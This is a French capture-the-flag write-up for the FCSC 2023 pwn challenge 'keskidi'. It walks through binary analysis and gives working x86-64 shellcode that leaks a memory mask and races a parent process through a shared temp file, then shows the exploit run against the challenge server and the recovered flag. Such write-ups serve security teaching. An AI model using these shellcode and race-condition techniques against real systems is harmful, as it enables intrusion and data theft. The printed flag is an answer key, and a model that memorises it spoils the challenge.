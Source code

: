 
<p align="center">
  <img src="img/consignes.png" />
</p>

Le binaire du challenge nous est fourni : [keskidi](files/keskidi)

Challenge très amusant, et frustrant, qui m'a demandé pas mal d'ajustements pour sortir le flag.

#### Fonctionnement du code

L'analyse du binaire montre que toutes les sécurités sont activées (+ASLR sur le serveur)

```bash
$ checksec keskidi
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Le binaire réalise plusieurs actions :
- création d'un fichier temporaire dans `/tmp`
- écriture de 0x1000 octets aléatoires dans ce fichier mais aussi dans la .bss
- lancement d'un processus fils (avec des droits réduits) qui va lire une entrée de l'utilisateur et l'exécuter (un shellcode est attendu)
- le processus père lit le fichier `flag.txt`, cherche chaque occurence de caractère du flag dans les 0x1000 octets aléatoires de la .bss et les remplace dans le fichier temporaire par des `0x00`


Le fichier temporaire étant aussi accessible pour le processus fils (et donc notre shellcode), l'idée va être :
- de dumper le random original depuis la .bss
- lire les modifications sur le fichier temporaire
- retrouver dans le random d'origine les caractères remplacés par des `0x00` pour reconstituer le flag.


#### Quelques points d'attention

Après la création du fichier temporaire, un appel à `unlink()` le détruit du file system, cependant (voir le man de la fonction) le filedescriptor reste ouvert et accessible pour le programme tant qu'il s'exécute.

On a une indication sur la taille du flag, qui sera précieuse :

```c
if ((int)sVar3 != 0x46) {
  perror("read: the flag must be 70-char long.");
  exit(1);
}
```

Droits du fichier temporaire : `iVar2 = fchmod(DAT_00104040,0666);`


Calcul des offsets :

Le processus fils appelle une fonction que j'ai appelée `mem_buffer` pour lire puis exécuter notre shellcode. A l'exécution de celui-ci (`CALL RAX`) `rip` est poussé sur la stack et contient l'adresse de l'instruction suivante dans `mem_buffer`.

On pourra s'en servir pour calculer les décalages avec l'adresse de `tmp_file` et l'adresse du random dans la .bss.


### Premier shellcode

- leak du numéro du filedescriptor du fichier temporaire (pour confirmer)
- leak des `0x1000` octets de random utilisés comme "masque"
- boucle infinie pour lire quelques octets du fichier temporaire

```c
if (c != (undefined *)0x0) {
  lseek(tmp_file,(__off_t)(c + -0x104060),0);
  write(tmp_file,&NULL_byte,1);
  syncfs();
  c = c + 1;
}
```

A chaque écriture la tête de lecture va pointer sur l'octer suivant celui écrasé par un NULL byte.

Dans le shellcode, je reviens d'un octet en arrière pour lire le NULL byte et quelques octets random.

Ces quelques octets permettent de rechercher cette même séquence dans le random originial, puis comparer l'octet précédent, s'il est non nul dans le random original il est récupérer comme caractère du flag.


Ce shellcode fonctionnait en local, mais difficilement en remote.

Plusieurs exécution donnaient des morceaux de flag :
```
FCSC5cda17Fc57{a5{ba21c8eb5a{aSa2b293c971704b2e2SFadSb23c38579f{a2F7FC
Cd71d7{S7231c8eb5a29c970423b73a78787d62e3075ed39ec3ab5d3fbc7cC494f4Fef
FCFC{5da751b72cb529c974b37de35e3e5d3fe8}6c
191f5e64e9ef4786964969¶7e79e4150f47f671861f6a5d61917a6a5456Ð6f7adf7b8e
FC431c8eb29c97042373a7d462eC3075ed39e3a5d3fbc4e8}
FSC{5cda71b72431c89c97473a7607a3fbc8}d
FC{5cda7f5ba4231c8eb5a29c97090b0414212353S3b73a7d46292C2e2e3075edScd38
F{a4238eb5a2959423b73a7d46e3075ed39ec0c3b5dbc49464Fe8}6c
FCS5cf5ba472423{31ac8eCeceb5e5aea2Cf7{fCdf5daf23c{141F297373b73a87d462ea3075ed1d39ec3ab5df8}F
F{a751241c85a29c970423b7d34353aSa7d4{4S46C62ec20df{a71S8fC87S7{c71eadf
FC{5cda7f51ba4724231c8eb5a29c9709S0420383e438b8574F1f8bF{bFaSb{9Fbe{b3


FCSC{da7f51ba47242c23b31c{d41S1b5cCfcdc8eb87b590423aedcfc}71F{2
FC524c8ea29c9708423b737aCaCa4a7d5d462e5305ed39ec3ab5{5d5dSd539{S4Fa14e
FCSC{5cdad51ba47243cS8eb5a29c970473a7d463079e39ec3b5d3fbcSdc14e0e8}
FCSC{5cda7f571d1a4{4724231cS8eb515a7a29c93970Sa84e823C3fb73a746e305ed3

FCSC{57f51ba472421{8480e79C0{e0e41d3FafFcfS787F92S2e43639e7be}{
FCSC{5cdafc51{7172d31cd8e2129C704d62e72939ab59dS1Sf4e8}3}e1}d
FCS{5cda7cf5afba2141cFa1bdbaCc237e43d4Ff36305CedaC35bc8c{4SFeCef8dC}C}c}S1CS193
```

En simplifiant le shellcode (`push pop` remplacés par des `mov` directs, `xor` pour mettre à zéro), le rendu était un peu meilleurs.

Je me suis dit que la race condition avec le processus père s'améliorait.

#### Second shellcode

Pour continuer j'ai ajouté un appel système a `sys_nanosleep` dans la boucle du shellcode, et j'ai joué avec la valeur du sleep pour essayer de caler ma boucle sur les opération d'écritures du processus père.

```python
shellcode="""

// constantes pour nanosleep
  mov r10, QWORD PTR [rsp]
  add r10, 0x2c88
  mov r12, r10
  add r12, 0x08
  mov QWORD PTR [r10], 0x0
  mov QWORD PTR [r12], 10000


// leak tmp_file descriptor
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2c80
  push SYS_write
  pop rax
  syscall

// leak random from .bss
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1000
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2ca0
  push SYS_write
  pop rax
  syscall

  lab:
// fseek(fd,-0x1,1)
  mov rdi, 4
  mov rsi, -0x1
  mov rdx, 1
  mov rax, 0x8
  syscall


// read(fd,rsp,0x5)
  mov rsi, rsp
  mov rdx, 0x5
  xor rax, rax
  syscall

// write(1, rsp, 0x5)
  mov rdi, 1
  mov rax, 1
  syscall

  //nanosleep
  mov rdi, r10
  mov rsi, r12
  mov rax, 35
  syscall
  jmp lab
"""
```


Avec quelques essais, le flag sort correctement :

```bash
python3 exploit3.py REMOTE
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] File descriptor b'\x04'
[*] Random data received : 4096
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2103
```
